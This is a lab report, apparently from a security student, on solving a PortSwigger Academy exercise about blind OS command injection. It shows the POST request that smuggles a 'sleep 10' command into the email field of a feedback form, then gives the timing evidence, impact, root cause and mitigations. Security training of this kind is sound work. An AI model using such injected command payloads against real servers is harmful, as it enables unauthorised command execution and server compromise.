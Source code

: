 # Lab Report: Blind OS Command Injection with Time Delays

## Overview
This report documents the exploitation of a **Blind OS Command Injection** vulnerability identified in the feedback submission functionality of the target web application (PortSwigger Lab).  

The injection does not return command output, but we can confirm execution using **time-based payloads**.

---

## Evidence of Exploitation

### Request
```http
POST /feedback/submit HTTP/2
Host: 0af8006903efd585811707cc003b0054.web-security-academy.net
Cookie: session=48DU1hc4aVIZRuvQ3BoEgk2pszbu2qCt
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

csrf=RSaFY6HpuFOg03gYR5dybcfGA6YOppT&name=Rumana&email=Rumana%40gmail.com; sleep+10;&subject=Nothing&message=Hi

### Response

HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 16

"Could not save"


### Observation

-The server response was delayed by approximately 10 seconds after submission.

-This confirms that the injected command (sleep 10) was executed on the backend system.

-Even though the response returned an error message (Could not save), the timing difference proves successful exploitation.


### Impact

-Attackers can execute arbitrary system commands on the underlying server.

-Even without output, this vulnerability can be leveraged for:

-Exfiltration via DNS/HTTP requests

-Privilege escalation

-Full server compromise

### Root Cause
The application concatenates untrusted user input (the `email` parameter) into a system command without proper sanitization.  

Special shell metacharacters (`;`, `&&`, `|`) are not filtered.

### Mitigation
- **Avoid system calls with user input** – Use safe APIs and parameterized functions.  
- **Input Validation & Sanitization** – Reject dangerous characters and enforce strict input rules (e.g., valid email format).  
- **Least Privilege Execution** – Run the application with minimal system permissions.  
- **Monitoring** – Detect abnormal response delays that may indicate exploitation attempts.

### Skills Demonstrated
- Identification of blind command injection  
- Use of time-based payloads (`sleep 10`)  
- Validation of command execution through response timing analysis  
- Crafting injection payloads in a POST request body

### References
- [PortSwigger Academy: Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/blind)  
- [OWASP: OS Command Injection](https://owasp.org/www-community/attacks/Command_Injection)

### Screenshot
![Blind OS Command](/images/Code-Injection-Lab2-backend.jpg)  
![Blind OS Command lab solved](/images/Code-Injection-Lab2.jpg) 
